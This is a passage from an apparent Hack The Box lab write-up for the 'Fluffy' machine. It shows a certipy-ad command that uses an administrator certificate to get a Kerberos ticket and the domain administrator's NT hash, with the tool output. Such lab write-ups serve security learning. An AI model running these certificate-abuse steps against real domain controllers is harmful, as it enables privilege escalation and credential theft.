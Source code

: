 now let's use the certificate to get the administrator hash
```bash
certipy-ad auth -dc-ip 10.10.11.69 -pfx administrator.pfx -u administrator -domain fluffy.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b514
```
and voila

![](Season%208%20-%20Fluffy-9.png)
